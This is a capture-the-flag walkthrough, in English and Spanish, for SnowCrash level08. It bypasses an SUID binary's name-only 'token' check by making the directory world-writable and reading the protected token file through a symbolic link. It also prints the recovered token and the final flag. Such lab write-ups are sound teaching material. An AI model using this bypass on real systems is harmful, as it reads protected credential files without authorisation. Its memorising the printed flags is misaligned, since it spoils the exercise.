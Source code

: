 # Flag 08

## Tools Used:

* `ls`, `chmod`, `ln -s`
* Basic knowledge of symbolic links and file permissions
* Reverse engineering (Ghidra or equivalent)

## Process:

Upon accessing the `level08` account, listing the files reveals:

```bash
level08@SnowCrash:~$ ls -la
```

Key files:

```
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```

The **token** file is not readable by `level08`, but there is an SUID binary `level08` that allows reading files.

### Decompilation Analysis:

The binary reads a file (provided as an argument) and prints its contents, but explicitly blocks reading any file named `token`:

```c
if (strstr(argv[1], "token") != NULL) {
    printf("You may not access '%s'\n", argv[1]);
    exit(1);
}
```

### Key observations:

1. The restriction is **name-based** only, not permission-based.
2. Creating a **symbolic link** bypasses the name check.

### Exploitation:

1. Change directory permissions to allow the creation of symlinks:

```bash
level08@SnowCrash:~$ chmod 777 .
```

2. Create a symbolic link with a different name pointing to `token`:

```bash
level08@SnowCrash:~$ ln -s token hola
```

3. Run the binary with the symlink as argument:

```bash
level08@SnowCrash:~$ ./level08 hola
```

Output:

```
quif5eloekouj29ke0vouxean
```

4. Switch to the `flag08` user and retrieve the actual flag:

```bash
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

---

# Flag 08

## Herramientas Utilizadas:

* Comandos `ls`, `chmod`, `ln -s`
* Conocimientos básicos de enlaces simbólicos y permisos de archivos
* Ingeniería inversa (Ghidra o equivalente)

## Proceso:

Al acceder a la cuenta `level08` y listar los archivos:

```bash
level08@SnowCrash:~$ ls -la
```

Archivos clave:

```
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```

El archivo **token** no puede ser leído directamente, pero el binario `level08` con permisos SUID permite leer cualquier archivo salvo que su nombre contenga "token".

### Análisis del Código:

El binario verifica el nombre del archivo y deniega el acceso si contiene la palabra "token":

```c
if (strstr(argv[1], "token") != NULL) {
    printf("You may not access '%s'\n", argv[1]);
    exit(1);
}
```

### Observaciones clave:

1. La verificación es únicamente sobre el **nombre** del archivo, no sobre permisos o inodos.
2. Un **enlace simbólico** con otro nombre puede eludir esta comprobación.

### Explotación:

1. Modificamos los permisos del directorio:

```bash
level08@SnowCrash:~$ chmod 777 .
```

2. Creamos un enlace simbólico apuntando a `token`:

```bash
level08@SnowCrash:~$ ln -s token hola
```

3. Ejecutamos el binario usando el enlace simbólico:

```bash
level08@SnowCrash:~$ ./level08 hola
```

Resultado:

```
quif5eloekouj29ke0vouxean
```

4. Con este token, accedemos al usuario `flag08` y obtenemos la flag real:

```bash
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

---

## Scripts Used:

```bash
ln -s token hola
./level08 hola
```

## Flag:

```
25749xKZ8L7DkSCwJkT9dyv6f
```

